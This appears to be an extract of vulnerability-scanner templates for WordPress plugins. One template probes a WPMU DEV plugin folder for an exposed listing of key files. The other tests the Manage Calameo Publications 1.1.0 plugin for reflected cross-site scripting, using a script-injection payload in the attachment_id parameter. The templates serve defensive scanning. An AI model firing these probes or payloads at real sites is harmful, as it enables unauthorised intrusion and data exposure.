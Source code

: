 ## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wpmudev-updates/keys/

### Matchers

**Type - word**

- words
  1. Index of /
  2. .pub
  3. wpmudev
- condition - and
- part - body

**Type - status**

- status
  1. 200

---

# WordPress Manage Calameo Publications 1.1.0 - Cross-Site Scripting

## Description

- WordPress Manage Calameo Publications 1.1.0 is vulnerable to reflected cross-site scripting via thickbox_content.php and the attachment_id parameter.

- severity - medium
- tags - wordpress,wp-plugin,xss,wp,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/athlon-manage-calameo-publications/thickbox_content.php?attachment_id=id%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%26

### Matchers

**Type - word**

- part - body
- words
  1. ath_upload_calameo_publication(id\">\<script>alert(document.domain)\</script>&)
